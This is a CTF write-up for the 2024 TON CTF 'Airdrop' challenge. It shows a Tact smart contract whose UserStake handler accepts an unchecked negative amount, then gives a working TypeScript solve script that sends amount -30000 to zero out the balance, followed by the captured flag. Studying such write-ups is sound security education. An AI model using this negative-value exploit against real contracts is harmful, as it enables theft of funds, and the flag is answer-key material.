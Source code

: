 ```yaml
---
title: Blockchain - Airdrop
description: 2024 | TON CTF
tags:
    - ton
    - tact
---
```


## Description

> [Challenge Files](https://github.com/TonBitSec/TonCTF-Challenges/tree/6dc2518086f88006a4dd4dd0bfef963b1f13c33b/airdrop)

??? note "Airdrop.tact"

    ```rs
    const CLAIM_AMOUNT: Int = 1;
    const INIT_SUPPLY: Int = 30000;

    message UserStake{
        amount: Int;
    }

    message UserWithdraw{
        amount: Int;
    }

    message StakeEvent{
        sender: Address;
        amount: Int;
    }

    contract AirDrop {

        total_balance: Int as uint256;
        user_info: map<Address, Int>;
        user_claim_info: map<Address, Bool>;

        init(version: Int) {
            self.user_info = emptyMap();
            self.total_balance = INIT_SUPPLY;
        }

        receive("AirDrop") {
            require(self.user_claim_info.get(sender()) == null, "Have claimed");
            let user_staked: Int = 0;
            if (self.user_info.get(sender()) != null) {
                user_staked = self.user_info.get(sender())!!;
            }
            self.total_balance = self.total_balance - CLAIM_AMOUNT;
            self.user_info.set(sender(), user_staked + CLAIM_AMOUNT);
            self.user_claim_info.set(sender(), true);
        }

        receive(msg: UserStake) {
            require(context().value > msg.amount, "Incorrect TON value");
            let user_staked: Int = 0;
            if (self.user_info.get(sender()) != null) {
                user_staked = self.user_info.get(sender())!!;
            }
            self.total_balance = self.total_balance + msg.amount;
            self.user_info.set(sender(), user_staked + msg.amount);
        }

        receive(msg: UserWithdraw) {
            require(self.user_info.get(sender()) != null && self.user_info.get(sender())!! != 0, "Nothing to withdraw");
            let user_staked: Int = 0;
            user_staked = self.user_info.get(sender())!!;
            require(msg.amount <= user_staked, "Insufficient balance");
            self.total_balance = self.total_balance - msg.amount;
            if (msg.amount == user_staked) {
                self.user_info.del(sender());
            } else {
                self.user_info.set(sender(), user_staked - msg.amount);
            }
        }

        get fun balance(): Int {
            return self.total_balance;
        }

        get fun is_solved(): Bool {
            return self.total_balance == 0;
        }
    }
    ```

## Solution

- There is a state variable `total_balance` with value `30000` initially. The goal of this challenge is to make `total_balance` equal to zero
- There are three operations:
  - **AirDrop** Each user can execute once and `total_balance` will be subtracted by 1.
  - **UserStake** Increase `total_balance` and `user_staked` with user-provided `msg.amount`.
  - **UserWithdraw** Decrease `total_balance` and `user_staked` with user-provided `msg.amount`. The `msg.amount` should not be greater than `user_staked`.
- Since `UserStake` does not check `msg.amount` which is of type `Int`, we can provide a negative value to reduce `total_balance`

    ```rs
    receive(msg: UserStake) {
        require(context().value > msg.amount, "Incorrect TON value");
        let user_staked: Int = 0;
        if (self.user_info.get(sender()) != null) {
            user_staked = self.user_info.get(sender())!!;
        }
        self.total_balance = self.total_balance + msg.amount;
        self.user_info.set(sender(), user_staked + msg.amount);
    }
    ```

### Exploitation

Create a `solve.ts` under the `sources/` and run `yarn solve`.

```ts
import { Address, toNano, TonClient, WalletContractV4 } from "@ton/ton";
import { mnemonicToPrivateKey } from "ton-crypto";
import { AirDrop } from "./output/Airdrop_AirDrop";
import * as dotenv from "dotenv";
dotenv.config();

(async () => {
    const client = new TonClient({
        endpoint: "http://65.21.223.95:8081/jsonRPC",
    });

    let mnemonics = (process.env.mnemonics_2 || "").toString();
    console.log(mnemonics);

    let keyPair = await mnemonicToPrivateKey(mnemonics.split(" "));
    let secretKey = keyPair.secretKey;
    let workchain = 0; // we are working in basechain.
    let deployer_wallet = WalletContractV4.create({ workchain, publicKey: keyPair.publicKey });
    console.log(deployer_wallet.address);

    let deployer_wallet_contract = client.open(deployer_wallet);

    let target = Address.parse(CONTRACT);

    let contract_open = await client.open(AirDrop.fromAddress(target));
    await contract_open.send(
        deployer_wallet_contract.sender(secretKey),
        {
            // deducting fees from it
            value: toNano("0.1"),
        },
        {
            "$$type": "UserStake",
            "amount": -30000n,
        }
    );
})();
```

### Flag

> flag{9uhaXCAoWxGi}_Airdrop

## References

- [TonBitSec / ton-sample](https://github.com/TonBitSec/ton-sample/tree/054915e9f0655d39e60d0b6740692615da37e023/sources)
